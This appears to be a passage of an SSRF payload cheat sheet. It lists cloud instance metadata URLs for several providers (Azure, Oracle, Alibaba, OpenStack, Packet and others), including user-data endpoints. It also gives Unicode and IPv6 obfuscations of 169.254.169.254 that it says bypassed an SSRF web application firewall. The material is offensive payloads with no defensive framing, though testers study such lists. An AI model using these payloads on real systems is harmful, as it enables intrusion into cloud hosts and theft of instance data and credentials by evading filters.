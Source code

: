 ```bash
<http://169.254.169.254/metadata/v1/id>
<http://169.254.169.254/metadata/v1/user-data>
<http://169.254.169.254/metadata/v1/hostname>
<http://169.254.169.254/metadata/v1/region>
<http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address>

## Packetcloud

<https://metadata.packet.net/userdata>

## Azure
#  Limited, maybe more exist?
# <https://azure.microsoft.com/en-us/blog/what-just-happened-to-my-vm-in-vm-metadata-service/>
<http://169.254.169.254/metadata/v1/maintenance>

## Update Apr 2017, Azure has more support; requires the header "Metadata: true"
# <https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service>
<http://169.254.169.254/metadata/instance?api-version=2017-04-02>
<http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text>

## OpenStack/RackSpace 
# (header required? unknown)
<http://169.254.169.254/openstack>

## HP Helion 
# (header required? unknown)
<http://169.254.169.254/2009-04-04/meta-data/> 

## Oracle Cloud
<http://192.0.0.192/latest/>
<http://192.0.0.192/latest/user-data/>
<http://192.0.0.192/latest/meta-data/>
<http://192.0.0.192/latest/attributes/>

## Alibaba
<http://100.100.100.200/latest/meta-data/>
<http://100.100.100.200/latest/meta-data/instance-id>
<http://100.100.100.200/latest/meta-data/image-id>

## Enclosed Alphanumeric
<http://⑯⑨>。②⑤④。⑯⑨｡②⑤④/
<http://⓪ⓧⓐ⑨>｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
Successfully bypassed a SSRF WAF by using a combination of IPV6 + Unicode. Payload for Metadata instances:
http://[::ⓕⓕⓕⓕ:①⑥⑨。②⑤④。⑯⑨。②⑤④]:80
Check images for response difference between 169.254.169.254 and the above payload I shared
```

# Protocols
